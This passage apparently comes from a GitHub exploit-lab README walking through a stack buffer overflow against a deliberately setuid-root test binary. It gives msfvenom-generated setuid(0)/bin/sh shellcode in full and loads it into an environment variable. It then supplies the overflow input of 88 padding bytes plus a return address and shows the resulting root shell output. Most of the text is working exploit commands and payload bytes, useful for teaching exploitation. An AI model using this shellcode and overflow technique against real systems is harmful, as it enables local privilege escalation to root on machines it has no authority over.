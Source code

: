 Without setuid call:
```bash
$ ps -o pid,euid,ruid,suid,cmd -A | grep stack_overflow 
PID    EUID  RUID  SUID CMD
14223     0  1000     0 ./stack_overflow
```

After setuid call:
 ```bash
$ ps -o pid,euid,ruid,suid,cmd -A | grep stack_overflow 
PID    EUID  RUID  SUID CMD
14223     0     0     0 ./stack_overflow
```

1. Gain shellcode with setuid(0), using msfvenom from metasploit, important option is PrependSetuid=True
   
```bash
$ msfvenom -p linux/x64/exec -f c CMD=/bin/sh PrependSetuid=True NullFreeVersion=True

Payload size: 63 bytes
Final size of c file: 291 bytes
unsigned char buf[] = 
"\x48\x31\xff\x6a\x69\x58\x0f\x05\x48\xb8\x2f\x2f\x62\x69"
"\x6e\x2f\x73\x68\x99\xeb\x1e\x5d\x52\x5b\xb3\x07\x88\x14"
"\x2b\x52\x66\x68\x2d\x63\x54\x5e\x52\x50\x54\x5f\x52\x55"
"\x56\x57\x54\x5e\x6a\x3b\x58\x0f\x05\xe8\xdd\xff\xff\xff"
"\x2f\x62\x69\x6e\x2f\x73\x68";
```

2. Change owner of stack_overflow binary, and set setuid bit
```bash
$ sudo chown root.root stack_overflow
$ sudo chmod u+s stack_overflow
```

3. Update PWN vairable with new shellcode
```bash
$ export PWN=`python3 -c 'import sys; sys.stdout.buffer.write(b"\x48\x31\xff\x6a\x69\x58\x0f\x05\x48\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x99\xeb\x1e\x5d\x52\x5b\xb3\x07\x88\x14\x2b\x52\x66\x68\x2d\x63\x54\x5e\x52\x50\x54\x5f\x52\x55\x56\x57\x54\x5e\x6a\x3b\x58\x0f\x05\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68")'`
```

4. Execute exploit once again
```python
$ ./getenvvar PWN ./stack_overflow
PWN will be at 0x7fffffffe4ff

$ (python3 -c "import sys; sys.stdout.buffer.write(b'A'*88 + b'\xff\xe4\xff\xff\xff\x7f\x00\x00' + b'\n')"; cat) | ./stack_overflow
```

5. Now you are root
```
Enter a password: 
id
uid=0(root) gid=1000(talantov) groups=1000(talantov),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)
whoami
root
```
